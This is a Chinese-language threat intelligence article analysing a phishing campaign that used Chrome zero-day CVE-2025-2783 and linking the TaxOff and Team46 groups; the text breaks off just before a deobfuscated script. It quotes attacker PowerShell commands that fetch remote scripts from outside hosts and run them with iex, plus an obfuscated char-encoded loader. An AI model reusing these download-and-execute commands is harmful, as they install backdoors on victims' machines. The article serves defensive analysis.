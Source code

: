 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzAxMjYyMzkwOA==&mid=2247531081&idx=1&sn=52089fe73bfabf713e03710a33a396ce

#  CVE-2025-2783 谷歌Chrome零日漏洞（沙盒逃逸）的攻击分析  
 Ots安全   2025-06-19 09:17  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
介绍  
  
2025年3月，Positive Technologies专家安全中心（PT ESC）威胁情报部门分析了一起利用谷歌Chrome零日漏洞（沙盒逃逸）的攻击，该漏洞大约在同一时间被注册，并被追踪为 CVE-2025-2783。卡巴斯基的研究人员描述了该漏洞的利用方式和攻击过程，但后续的感染链仍未确定。  
  
在本报告中，我们认为此次攻击可能与 TaxOff 组织有关，我们在 之前的研究中也曾提到过该组织。本报告还提供数据表明，TaxOff 实际上与 我们之前发现的另一个组织Team46是同一个组织。  
  
Team46？  
  
引起专家关注的攻击发生在2025年3月中旬。最初的攻击媒介是一封包含恶意链接的钓鱼邮件。受害者点击该链接后，触发了一键漏洞利用 (CVE-2025-2783)，导致安装了 TaxOff使用的Trinper后门。该钓鱼邮件伪装成Primakov Readings论坛的邀请，链接指向一个托管该漏洞利用的虚假网站。该邮件的文本可在 卡巴斯基报告中找到。  
  
在对那次攻击进行调查期间，还发现了另一起可追溯到2024年10月的攻击，该攻击也始于一次网络钓鱼活动。恶意邮件中包含一份邀请函，邀请人们参加一场名为“现代世界中的联盟国家安全”的国际会议。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tad4spib6WVQc03kEYD6LB8Iwbtzdk3KJZQczKEVicViamYBDuHbvVkOtR2FcJ0DgZHAgkDm6Wic97kRpw/640?wx_fmt=png&from=appmsg "")  
  
图 1. 2024 年 10 月攻击中使用的诱饵文档  
  
电子邮件的结构和风格与 2025 年 3 月的攻击中观察到的非常相似。  
  
这封2024年10月的电子邮件包含以下链接：https://mil-by[.]info/#/i?id=[REDACTED]。点击该链接会下载一个存档，其中包含一个快捷方式，该快捷方式使用以下命令启动powershell.exe ：  
  

```
-w minimized -c irm https://ms-appdata-query.global.ssl.fastly.net/query.php?id=[REDACTED] | iex
```

  
  
此前，我们在 Team46 攻击中看到过类似的命令：  
  

```
-w Minimized -ep Bypass -nop -c&#34;irm https://infosecteam.info/other.php?id=jdcz7vyqdoadr31gejeivo6g30cx7kgu | iex&#34;
```

  
  
执行命令后下载的 PowerShell 脚本也与Team46 使用的脚本之一类似。下载的脚本如下所示：  
  

```
powershell.exe -w minimized -ep bypass -noni -nop -c Invoke-Expression $([char](10+0x18+0x2)+[char](100)+[char](0x33+0x18+0x21)+[char](0x64)+[char](99)+[char](56+0x29)+[char](111)+[char](12+0x43+0x29)+[char](22+99)+[char](0x25+56+28)+[char](100)+[char](0x70)+[char](20+0x2e+41)+[char](0x4c+0x2c)+[char](2+103)+[char](0+119)+[char](0x53+21)+[char](16+83)+[char](108)+[char](11+0x5c)+[char](105)+
[REDACTED]
```

  
  
去混淆后，脚本如下所示：  
  